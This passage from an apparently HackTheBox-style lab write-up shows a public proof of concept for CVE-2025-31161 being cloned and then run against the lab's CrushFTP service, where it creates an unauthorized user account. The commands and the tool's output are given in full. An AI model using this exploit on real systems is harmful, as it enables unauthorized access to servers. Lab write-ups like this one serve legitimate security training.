 Searching for the POC scripts, I come up with this POC script by [Immersive-Labs-Sec GitHub](https://github.com/Immersive-Labs-Sec/CVE-2025-31161):


![img](github.png)

So, we might able to use this exploit. Download the POC scripts:
```
┌──(kali㉿kali)-[~/upload]
└─$ git clone https://github.com/Immersive-Labs-Sec/CVE-2025-31161.git
Cloning into 'CVE-2025-31161'...
remote: Enumerating objects: 9, done.
remote: Counting objects: 100% (9/9), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 9 (delta 3), reused 4 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (9/9), 6.02 KiB | 6.02 MiB/s, done.
Resolving deltas: 100% (3/3), done.

┌──(kali㉿kali)-[~/upload]
└─$ cd CVE-2025-31161
```

Now, try to exploit the <code>CrushFTP</code> service using the exploit (make sure to set the port to <code>80</code>, as the default is <code>8080</code>):
```
┌──(kali㉿kali)-[~/upload/CVE-2025-31161]
└─$ python3 cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --new_user test --password test123
[+] Preparing Payloads
  [-] Warming up the target
[+] Sending Account Create Request
  [!] User created successfully
[+] Exploit Complete you can now login with
   [*] Username: test
   [*] Password: test123.
```